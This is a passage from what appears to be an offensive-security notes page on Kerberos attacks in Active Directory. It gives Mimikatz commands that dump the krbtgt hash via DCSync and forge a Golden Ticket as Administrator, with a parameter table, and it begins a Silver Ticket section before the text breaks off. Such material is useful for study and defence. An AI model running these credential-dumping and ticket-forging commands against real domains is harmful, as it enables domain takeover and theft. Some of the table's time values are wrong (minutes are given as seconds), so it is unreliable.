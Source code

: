 - No AS-REQ or AS-REP communication exists with the DC. Golden Ticket is sent to the DC to get a TGS.
  - Present TGT, request TGS (TGS-REQ)
  - TGS response (receive TGS)
  - Client using the allotted TGS are authenticated as well as authorized to access DB server
  - Other optional validation requests with the DC is performed.

- Extract krbtgt account hash :

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:cyberwarfare\krbtgt"'
```

- Domain SID : 

```powershell
whoami /all (of a domain user)
```

- Adversary Forge Golden ticket in a Domain as follows : 

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:cyberwarfare.corp /sid:S-1-5-21-xxxxx-yyyyy-xxxxx /krbtgt:xxxxxxxxxxxxxxxxxx /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

#### Command Explanation

| Command | Explanation |
| --- | --- |
| kerberos::golden | Module Name |
| /User:Administrator | Username for which the TGT is generated |
| /domain:cyberwarfare.corp | Current Domain Fully Qualified Domain Name |
| /sid:xxx | SID value of the domain |
| /krbtgt:yyyyy | Krbtgt user account hash |
| /ptt | Injects the ticket in current session (memory) |
| /ticket | Save the ticket in .kirbi format |
| /startoffset:0 | Set ticket time to the latest (current) |
| /endin:600 | 600 sec (10 minutes) by-default 10 Years |
| /renewmax:10080 | 7 Days (10080 sec) |

### Silver Ticket Attack

- Silver ticket is signed and encrypted with the target service account hash.

- Represents a valid TGS (for authorization)

- Requirements :
  - Domain SID
  - Service account /Machine Account hash
  - Domain name
  - SIDS (in Cross-Forest Attacks)
- Extract krbtgt account hash : 
- Domain SID : 
